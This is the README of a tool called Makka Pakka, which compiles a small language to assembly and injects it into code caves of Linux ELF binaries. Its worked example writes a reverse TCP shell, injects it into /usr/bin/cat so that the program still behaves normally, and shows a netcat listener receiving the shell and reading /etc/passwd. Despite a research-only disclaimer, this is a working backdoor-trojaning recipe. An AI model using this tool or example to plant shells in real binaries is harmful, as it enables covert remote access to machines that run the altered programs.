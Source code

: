 # Makka Pakka
Makka pakka is a programming language which transpiles into Intel assembly.
Makka pakka programs are specifically written to be embedded within a target
linux binary (ELF file). The language contains a submodule which autmatically
injects the compiled code into a
[code cave](https://en.wikipedia.org/wiki/Code_cave) of the target program.

To learn more, please visit the
[documentation page](https://lemon-bush-0f7dfc410.2.azurestaticapps.net/).

## Disclaimer
This project was created purely for research purposes. You do not have
permission to use this program for malicious code injection.

## Installation
__Makka Pakka only works on Linux. Trying to run it on other operating systems will not work.__

Makka pakka is distributed as a package on [PyPi](https://pypi.org/project/MakkaPakka).

To install, use pip:
``` bash
pip install MakkaPakka
```

You should then have access to three commands: mkpk, mkpk-transpile, elf-caver.

Test them out!
``` bash
mkpk --help
Usage: mkpk [OPTIONS] MKPK_FILEPATH TARGET_BINARY

Options:
-o, --output-file TEXT  The filepath to output the injected binary to.
-n, --patch-entrypoint  Patches the entrypoint to point to injected code.
-e, --patch-exit        Patches the process exit to point to the injected
                        code.
-v, --verbose           Logs a verbose output to stdout.
--help                  Show this message and exit.
```

``` bash
mkpk-transpile --help
Usage: mkpk-transpile [OPTIONS] MKPK_FILEPATH

Options:
-o, --output TEXT  The filepath to output the translated makka pakka code.
--help             Show this message and exit
```

``` bash
elf-caver --help
Usage: elf-caver [OPTIONS]

Options:
-a, --asm-file TEXT     The filepath of the .asm file to inject.  [required]
-t, --target-file TEXT  The filepath of the binary to inject into.
                        [required]
-o, --output-file TEXT  The filepath to output the injected binary to.
                        [required]
-n, --patch-entrypoint  (Optional) Patches the entrypoint to point to
                        injected code.
-e, --patch-exit        (Optional) Patches the process exit to point to the
                        injected code.
--help
```

#### Development Installation
If you wish to contribute to Makka Pakka, then these are the instruction for downloading the source and setting up the dev environment

Prerequisite installs:
- Python 3.10+
- Netwide Assembler (NASM)

Clone the git repository and configure the environment.
``` bash
cd <your directory>
git clone https://github.com/PandasAreBears/MakkaPakka
```
``` bash
cd MakkaPakka
source configure.sh
```

At this point you can use Makka Pakka from within this directory.
``` bash
python3 mkpk.py --help
```

## Example
Creating a Makka Pakka program file:
```
!link stdlib/network.mkpk
!link stdlib/syscall.mkpk
!link stdlib/execve.mkpk

[[data]]
exit_msg: "Connection Terminated"
# 5555 in little endian.
port: 0xb315
# 127.0.0.1 in little endian.
addr: 0x0100007f

[[code]]
[main]
> socket
> connect "addr" "port"
> dup2
> bin_sh
> sys_write "exit_msg" 22
> sys_exit
```

Compiling the Makka Pakka program into /usr/bin/echo:
```
mkpk reverse_tcp.mkpk /usr/bin/cat -e -o cat_inject
Injecting assembly from cat_inject.asm into cat_inject.
Injected file output to cat_inject.mkpk reverse_tcp.mkpk
```

Setting up a listener on localhost:5555:
```
nc -l localhost 5555
```

Then run the injected cat binary:
```
./cat_inject --help
Usage: ./cat_inject [OPTION]... [FILE]...
Concatenate FILE(s) to standard output.

With no FILE, or when FILE is -, read standard input.

  -A, --show-all           equivalent to -vET
  -b, --number-nonblank    number nonempty output lines, overrides -n
  -e                       equivalent to -vE
  -E, --show-ends          display $ at end of each line
  -n, --number             number all output lines
  -s, --squeeze-blank      suppress repeated empty output lines
  -t                       equivalent to -vT
  -T, --show-tabs          display TAB characters as ^I
  -u                       (ignored)
  -v, --show-nonprinting   use ^ and M- notation, except for LFD and TAB
      --help     display this help and exit
      --version  output version information and exit

Examples:
  ./cat_inject f - g  Output f's contents, then standard input, then g's contents.
  ./cat_inject        Copy standard input to standard output.

GNU coreutils online help: <https://www.gnu.org/software/coreutils/>
Report any translation bugs to <https://translationproject.org/team/>
Full documentation <https://www.gnu.org/software/coreutils/cat>
or available locally via: info '(coreutils) cat invocation'
```

Now the netcat listener has a remote TCP shell:
```
nc -l localhost 5555
whoami
alex
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:106:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:107:113::/nonexistent:/usr/sbin/nologin
alex:x:1000:1000:,,,:/home/alex:/bin/bash
```

For more examples, or a more detailed technical explaination, please check
out the
[documentation page](https://lemon-bush-0f7dfc410.2.azurestaticapps.net/).
